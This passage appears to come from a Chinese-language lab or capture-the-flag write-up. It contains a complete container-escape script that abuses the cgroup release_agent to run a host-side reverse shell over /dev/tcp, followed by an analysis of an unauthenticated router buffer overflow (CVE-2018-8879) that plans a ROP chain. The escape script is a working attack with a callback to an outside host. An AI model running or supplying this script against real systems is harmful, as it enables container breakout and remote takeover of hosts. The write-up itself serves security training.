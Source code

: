 `payload.sh` EXP文件：

```bash
#！/bin/bash
mkdir -p /mnt/hola
mount /dev/vda2 /mnt/hola

mkdir /tmp/cgrp && mount -t cgroup -o rdma cgroup /tmp/cgrp && mkdir /tmp/cgrp/x

echo 1 > /tmp/cgrp/x/notify_on_release
host_path=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`
echo "$host_path/cmd" > /tmp/cgrp/release_agent

echo '#!/bin/bash' > /cmd
echo "bash -i >& /dev/tcp/[ip]/[port] 0>&1" >> /cmd
chmod a+x /cmd

sh -c "echo \$\$ > /tmp/cgrp/x/cgroup.procs"
```

反弹shell：

![image-20210813182738384](assets/image-20210813182738384.png)

## 安卓Chrome漏洞导致文件泄露

暂未完成任务

## 路由器未授权用户Getshell

挑战背景：导师怕我们题目做的太快作为补充题目（bushi。路由器作为家庭网络的中枢，在网络安全中有至关重要的作用。若路由器被攻击者侵入，家庭网络上的所有流量都将暴露给攻击者。懒惰的开发者家里现在使用了一个旧版本固件的路由器，已知暴露在[CVE-2018-8879缓冲区溢出漏洞](https://nvd.nist.gov/vuln/detail/CVE-2018-8879)的风险下，你能试着拿到他的高端路由器吗？（物理意义上以及安全意义上）

漏洞分析：根据文章，通过遍历web-server中所有文件查看是否能够找到未授权即可访问的页面，发现在 `blocking.asp` 页面中显示的信息都是通过URL参数传参得到的，`mac`，`flag` 和 `cat_id`。当通过往参数塞大量A时，通过系统日志，HTTPd 保护进程崩溃了。至此判断为非常经典的缓冲区溢出漏洞。但是只通过这个方式没有办法监听栈地址；并且无法跳转到shell code中；没有ROP chain，因为需要 `null-byte` 。（注意，目前为止的利用仅仅在URL参数中）通过查看栈内其他数据，发现在 HTTP 请求头中每个参数的结尾处有 `null-byte` 的存在，可以作为ROP chain使用。

>   ROP (Return Oriented Programming) is related to buffer overflows, in that it requires a buffer to overflow. The difference is that ROP is used to bypass certain protection measures that prevent normal buffer overflows. It turns out that a lot of the time, memory in programs is marked as non-executable. This means that we can't just put shellcode on the stack and have it execute, this is where ROP comes in. **Recall the stack.** 
>
>   ```
>   [ return address ] <-- this is the address of the next function to call, we want to overwrite this
>   [  eip (address) ] <-- this takes up memory
>   [ stack variable ] <-- this also takes up memory
>   [    buffer[15]  ] <-- this is the 16th character of our input string
>   [      ...       ]
>   [    buffer[0]   ] <-- our input starts here
>   ```
